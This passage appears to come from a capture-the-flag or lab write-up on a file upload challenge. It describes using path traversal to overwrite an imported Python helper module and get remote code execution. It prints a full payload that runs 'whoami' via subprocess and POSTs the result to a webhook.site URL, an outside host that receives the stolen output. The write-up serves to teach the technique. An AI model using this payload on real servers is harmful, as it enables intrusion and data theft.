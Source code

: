 ```
def rename_file(a,b):
    import urllib.request
    urllib.request.urlopen("https://webhook.site/3262fb17-7439-4e6f-a284-b56b7c710cf4")
------WebKitFormBoundaryXcPpDrFHoeoueZrJ--

```

![image]({{ "/assets/img/2025-05-11-FileUploadChall/image6.png" | relative_url }})

![image]({{ "/assets/img/2025-05-11-FileUploadChall/image7.png" | relative_url }})

Hehe, that’s beautiful. Our hunch was right: we can upload a file named `helper.py`, then use path traversal to land it exactly at `/utils/helper.py`, overwriting the original — and it *does* get imported/executed.

---

## Exploit: RCE

The prompt didn’t specify how far to take exploitation, so I’ll go as deep as I can. With my current skill level, the natural goal is RCE: run OS commands on the server.

At first, I thought about using the already-imported `os` module. But after some tinkering, I hit these issues:
- You could use built-in tools like `wget` to send requests, *if* present.
- Capturing output from OS commands is tricky. Concretely:
    - For a command like `whoami`, I wanted to capture its output string and send it via the webhook.
    - But testing showed that doing something like `tmp = os.system('whoami')` then `print(tmp)` returns:

![image]({{ "/assets/img/2025-05-11-FileUploadChall/image8.png" | relative_url }})
> Note: `msi\\anhcd` is the result on line 8; line 9 is the `print` of `tmp`.

What does this mean? It means `tmp` is not the output, but the **exit code** (0). That’s useless for exfiltrating command results. I want the actual output from line 8 — that’s the annoying part.
> Searching around confirms: assigning like that gives you the exit code (i.e., success/failure), not stdout.

=> Dead end. I looked for another way with the same idea and landed on Python’s standard `subprocess` module. It’s designed to run subprocesses and capture output easily. It’s basically a better `os.system`.

![image]({{ "/assets/img/2025-05-11-FileUploadChall/image9.png" | relative_url }})
> https://docs.python.org/3/library/subprocess.html

Payload for RCE:
```python
def rename_file(a,b):
    import subprocess
    import urllib.request
    import urllib.parse
    
    command = subprocess.check_output(['whoami']).decode('utf-8').strip()
    
    data = urllib.parse.urlencode({'result': command}).encode('utf-8')
    
    req = urllib.request.Request(
        url='https://webhook.site/3262fb17-7439-4e6f-a284-b56b7c710cf4',
        data=data,
        method='POST'
    )
    
    with urllib.request.urlopen(req) as resp:
        print(f'Status: {resp.status}')
        print(resp.read().decode())
```